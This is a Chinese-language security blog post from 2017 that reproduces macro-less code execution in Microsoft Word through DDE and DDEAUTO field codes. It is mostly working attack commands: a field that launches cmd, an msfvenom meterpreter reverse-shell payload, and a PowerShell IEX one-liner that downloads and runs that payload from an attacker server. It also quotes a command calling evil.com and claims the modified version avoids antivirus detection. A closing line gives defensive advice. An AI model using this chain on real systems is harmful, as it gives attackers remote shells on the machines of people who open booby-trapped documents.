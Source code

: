 ```yaml
---
title: MSWord Code Exec Without Macro
date: 2017-10-12 12:54:29
tags: [vul,sec]
categories: Security
---
```

<script src="https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/pangu.js"></script>

昨天复现了一个 Microsoft Office Word 的一个执行任意代码的姿势，跟之前爆出的两个CVE (CVE-2017-0199, CVE-2017-8759) 可以组成三板斧，这里简单记录一下

在不启用宏的情况下执行任意程序，按照复现过程来看这确实像是一个功能而不是 bug，微软也表示不会修复这个“漏洞”。这个功能的本意是为了更方便地在 word 里同步更新其它应用的内容，比如说在一个 word文档里引用了另一个excel表格里的某项内容，通过连接域 (Field) 的方式可以实现在 excel 里更新内容后 word 中同步更新的效果，问题出在这个域的内容可以是一个公式(或者说表达式)，这个公式并不限制内容，于是我们可以这样，`ctrl+f9`插入一个域，在`{}`之间写入代码：

`{ DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe" }`

或者`插入-文档部件-域`，选择第一个` = (Formula)`
然后右键`切换域代码`来编辑代码，插入上面的内容

这样子可以直接弹出计算器

![calc](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/GIF.gif)


既然能执行cmd那就能弹shell

在msf里生成一个ps脚本：

`./msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=1234 -f psh-reflection >xxx.ps1`

在msf里监听

![msf](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/HQ%5D%25%7DB5TLH~HBZD%7B1_%7B$D%254.png)

然后开启一个服务器

`python -m SimpleHTTPServer 80`

远程下载ps脚本后执行

`DDEAUTO c:\\Windows\\System32\\cmd.exe "/k powershell.exe -NoP -sta -NonI -c IEX(New-Object System.Net.WebClient).DownloadString('http://x.x.x.x/xxx.ps1');xxx.ps1"`

打开文件后反弹一个shell

![shell](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/MPI@%5B%60%25DL%28U7WZL220E0%5B7Q.jpg)


过程很简单，唯一不足的是打开文件过程中会有两次弹窗，第一次是询问是否更新链接，第二个是问是否执行程序，当两个都点击确认后才会执行。

作者给出的命令是
`{ DDEAUTO c:\\Windows\\System32\\cmd.exe "/k powershell.exe -NoP -sta -NonI -W Hidden $e=(New-Object System.Net.WebClient).DownloadString('http://evil.com/evil.ps1');powershell -e $e "}`
但是自己尝试了并没有成功，于是修改成上面的命令，测试成功，并且不会报毒

除了上面使用的`DDEAUTO`，`DDE`也有能实现这个效果，但是要多一个步骤
将文件后缀改为`zip`或`rar`，用`7z`打开，修改`word/settings.xml`文件，增加一行`<w:updateFields w:val="true"/>`
![](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/6U0%25213Q8W%7BEOM%7BJ_V@7%29G7.png)
替换原来的`xml`文件后把后缀改回来

编辑文档，域代码为`{ DDE "c:\\windows\\system32\\cmd.exe" "/c notepad" }`
效果跟上面一样


类似方法除了上面两个外还有
```
GLOSSARY
IMPORT
INCLUDE
SHAPE
DISPLAYBARCODE
MERGEBARCODE
```
参考微软文档 https://msdn.microsoft.com/en-us/library/ff529384(v=office.12).aspx

目前不清楚这些方法有没有影响，微软认为并没有必要去修复这个“漏洞”

> Microsoft responded that as suggested it is a feature and no further action will be taken, and will be considered for a next-version candidate bug.

最近 office 漏洞频发，建议不要打开陌生的文档包括excel，ppt等，如有必要在保护视图中查看，另外及时更新系统补丁

参考：
https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/


<script>pangu.spacingPage();</script>
